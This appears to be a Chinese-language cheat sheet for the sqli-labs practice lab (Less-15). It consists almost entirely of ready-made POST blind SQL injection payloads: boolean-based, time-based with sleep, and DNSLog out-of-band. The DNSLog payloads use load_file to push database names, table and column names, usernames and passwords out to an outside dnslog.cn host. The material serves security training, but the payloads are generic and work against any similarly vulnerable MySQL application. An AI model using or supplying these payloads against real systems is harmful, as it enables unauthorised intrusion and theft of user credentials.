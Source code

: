 ## POST注入-盲注

### 布尔盲注-Less-15

```
# 爆表
passwd=123' or ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 1,1), 1,1)) <= 115
#&Submit=Submit
&uname=123
# 爆字段
passwd=123' or ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1), 1,1)) >= 115
#&Submit=Submit
&uname=123
# 爆值
passwd=123' or ascii(substring((select username from users limit 1,1), 1,1)) <= 115
#&Submit=Submit
&uname=123
```

### 时间盲注-Less-15

```
# 爆表
passwd=123' or if(ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 1,1), 1,1)) <= 115,sleep(0),sleep(3))#&Submit=Submit
&uname=123
# 爆字段
passwd=123' or if(ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1), 1,1)) <= 115,sleep(0),sleep(3))#&Submit=Submit
&uname=123
# 爆值
passwd=123' or if(ascii(substring((select username from users limit 1,1), 1,1)) <= 115,sleep(0),sleep(3))#&Submit=Submit&uname=123
```

### DNSLog盲注-Less-15

```
# 查看当前数据库
passwd=123' and (select load_file(concat("//", (select database()), ".2vajg1.dnslog.cn/asa")))#&Submit=Submit&uname=admin
# 爆表
passwd=123' and (select load_file(concat("//", (select table_name from information_schema.tables where table_schema=database() limit 1,1), ".2vajg1.dnslog.cn/asa")))#&Submit=Submit&uname=admin
# 爆字段
passwd=123' and (select load_file(concat("//", (select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1), ".2vajg1.dnslog.cn/asa")))#&Submit=Submit&uname=admin
# 爆值
passwd=123' and (select load_file(concat("//", (select username from users limit 1,1), ".2vajg1.dnslog.cn/asa")))#&Submit=Submit&uname=admin
passwd=123' and (select load_file(concat("//", (select password from users limit 1,1), ".2vajg1.dnslog.cn/asa")))#&Submit=Submit&uname=admin
```

